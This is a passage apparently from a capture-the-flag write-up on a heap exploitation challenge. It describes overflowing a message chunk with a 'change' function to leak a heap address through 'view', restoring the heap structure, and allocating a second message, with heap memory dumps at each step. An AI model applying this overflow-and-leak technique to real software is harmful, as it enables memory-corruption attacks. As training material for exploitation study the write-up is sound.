 ## Exploit

First, leave a message of size 8, then use `change` to overflow the chunk struct. In the end of first step, use `view` to leak heap address.

Heap layout in the beginning:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000400           # Top chunk
0x603020:      0x0000000000000000      0x0000000000603000
0x603030:      0x0000000000000000      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000000
0x603050:      0x0000000000000000      0x0000000000000000
```

Leave a message of size 8:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x00000000000003d0           # Top chunk
0x603050:      0x0000000000000000      0x0000000000603018
```

Use `change` to overflow, then leak the heap address:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x4141414141414141      0x4141414141414141
0x603040:      0x4141414141414141      0x4141414141414141           # Top chunk
0x603050:      0x4141414141414141      0x0000000000603018
```

Here use the `view` function. It will output `'A'*40 + '\x18\x30\x60'`.


Second, use `change` again to recover the heap struct since we don't want to mess up the heap struct. The struct will be the same as the second layout:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x00000000000003d0           # Top chunk
0x603050:      0x0000000000000000      0x0000000000603018
```

Third, leave another message of size 8:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000031           # Second message
0x603050:      0x0000000000603018      0x0000000000603018
0x603060:      0x0000000042424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
```
